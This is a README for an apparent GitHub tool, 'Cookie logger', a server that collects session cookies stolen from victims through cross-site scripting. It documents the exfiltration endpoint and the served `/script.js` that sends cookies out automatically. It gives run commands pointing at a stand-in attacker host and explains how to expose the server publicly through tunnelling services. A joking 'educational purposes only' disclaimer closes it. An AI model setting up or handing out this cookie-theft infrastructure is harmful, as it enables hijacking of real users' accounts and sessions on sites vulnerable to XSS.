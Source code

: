 # Cookie logger🍪

HTTP server to log users' cookies when exploiting XSS.

To log cookies, simply send GET request to `/log?data={cookies}&url={url}`, {url} is the site where cookies was logged. Cookies will be logged to stdout and stored in `cookies.log` file. 

Script for automatic logging is served at `/script.js`. Note that this script is making an XHR, hence to log cookies on HTTPS site this server should be also HTTPS-hosted. Also, HttpOnly cookies obviously will not be logged because javascript can't access them.

## Running

Set SERVER_URL to public (preferably https) url of a server you're running this script on. If you don't have one, see the next section. This is needed to serve a proper `/script.js` 

```
$ export SERVER_URL=https://totally-innocent-url.hack
$ flask --app 'main:create_app("'$SERVER_URL'")' run --host 0.0.0.0 --port 4444
```

or with gunicorn (better for production):

```
$ export SERVER_URL=https://totally-innocent-url.hack
$ gunicorn 'main:create_app("'$SERVER_URL'")' -b 0.0.0.0:4444
```

## Getting public url for free

You can use [Tunnelmole](https://tunnelmole.com/), [Telebit](https://telebit.cloud/), [ngrok](https://ngrok.com/) or any other alternative of your choice. It's simple as:

```
$ tmole 4444
http://s3rd.tunnelmole.net
https://s3rd.tunnelmole.net
```

Then set `SERVER_URL` in the previous section to the received https url and run the server.

## Disclaimer

For educational purposes only and all that jazz.

And I didn't use this for anything nasty, I promise :)